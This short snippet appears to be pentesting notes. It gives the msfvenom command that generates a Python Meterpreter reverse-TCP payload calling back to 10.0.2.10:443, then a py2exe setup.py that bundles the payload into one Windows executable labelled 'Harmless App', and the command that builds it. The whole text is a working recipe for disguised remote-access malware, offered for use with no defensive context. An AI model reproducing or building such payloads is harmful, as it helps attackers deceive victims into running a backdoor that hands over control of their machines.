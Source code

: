 Payload

```
msfvenom -p python/meterpreter/reverse_tcp LHOST=10.0.2.10 LPORT=443 -f raw -o ~/Desktop/m.py
```

Now create setup.py

```
from distutils.core import setup
import py2exe
setup(
name = 'Harmless',
description = 'Harmless App',
version = '0.1',
console=['m.py'],
options = {'py2exe': {'bundle_files': 1,'packages':'ctypes','includes': 'base64,sys,socket,struct,time,code,platform,getpass,shutil',}},
zipfile = None,
)
```

Put both files in same folder and run

```
python.exe setup.py py2exe
```